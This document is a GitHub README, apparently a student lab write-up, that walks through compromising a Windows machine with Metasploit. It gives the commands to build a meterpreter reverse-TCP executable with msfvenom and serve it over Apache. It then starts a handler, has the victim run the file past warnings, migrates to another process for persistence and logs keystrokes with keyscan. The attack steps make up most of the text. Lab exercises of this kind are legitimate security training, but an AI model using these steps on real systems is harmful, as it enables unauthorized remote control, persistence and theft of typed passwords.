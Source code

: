 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![322251922-6e11e35c-4c2c-4b7f-b903-58b1582a464b](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/64512098-0d84-4645-9059-68ed6b6b5adc)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![322251931-dec59a23-57c8-45d3-8dd5-0a544aa51bac](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/3bde8b72-fa12-42de-acd2-5ece3ce69ac6)
copy the fun.exe into the apache /var/www/html folder
![322251947-80180526-7555-4508-a89c-53d41ade25f3](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/4e5d8477-9f77-49ef-9deb-5dc660daafd1)
Start apache server sudo systemctl apache2 start
![322251961-d37aa8bf-5f56-4880-b314-22aa36443787](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/48fa7c6c-eef6-4979-b607-4e1404e804b1)
Check the status of apache2
![322251979-10180e97-3b84-48d5-9be2-b392e79b2b61](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/0fdb2841-36e8-47af-b0b7-385bc1f4e828)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![322251994-64c0064a-0cd1-46bd-8381-5a6c8407e861](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/27254eeb-6e3e-4ca0-938f-fa39732b8b8a)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![322252015-10b0f12b-e41d-46cb-a1c3-47abd997e0e1](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/526ad741-5b14-4834-ad3a-e6da1c055443)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![322252026-e16657d8-97f0-4a64-9b98-546a435c48c2](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/6bf1ff2b-9c4d-4182-83a8-08084c38ecb6)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![322252040-5a5b5d17-af40-4da3-94e2-7b3ab0cfa3a6](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/7384bedc-8b4f-466d-b23b-62d731f12222)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![322252094-a67b30ad-fd96-400f-9c73-37a5700ba5eb](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/2c5bae06-069c-4f6d-b2ae-517962997c9d)
keyscan_dump Shows the keystrokes captured so far
![322252079-f98298f8-2a9e-40be-a395-6222ac594da5](https://github.com/pradeepasri26/Compromising-windows-using-Metasploit/assets/131433142/be9cd713-7ed5-40d9-aa86-05697e778414)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
